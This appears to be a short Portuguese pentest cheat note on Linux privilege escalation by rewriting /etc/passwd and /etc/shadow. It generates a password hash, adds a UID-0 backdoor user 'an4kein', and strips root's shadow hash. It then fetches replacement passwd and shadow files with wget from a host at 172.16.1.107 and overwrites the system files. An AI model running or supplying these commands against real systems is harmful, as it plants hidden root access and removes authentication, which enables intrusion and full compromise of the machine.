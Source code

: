 
`openssl passwd -1 -salt an4kein 1337`

`$1$an4kein$KpVTAUsL0SO0N532qSXyf.`

`an4kein:$1$an4kein$KpVTAUsL0SO0N532qSXyf.:0:0:/root/root:/bin/bash`


https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/

1- Remova a senha crypt que existe no SHADOW

antes:
`root:$6$8uypxcySPhhZ/p1p$1Sj6Bbm/tTNOqdmjVWJh9KXH/osqfXi4WQfVkoSEgL5OSKGo7cxdbQRQo.yzibIddtabSHYvDs1IbITaGTd/o.::0:99999:7:::`

depos:
`root:::0:99999:7:::`


wget http://172.16.1.107:82/shadow -O shadow

wget http://172.16.1.107:82/passwd -O passwd


LFILE=/etc/shadow
echo "$(cat shadow)" | cp /dev/stdin "$LFILE"

LFILE=/etc/passwd
echo "$(cat passwd)" | cp /dev/stdin "$LFILE"
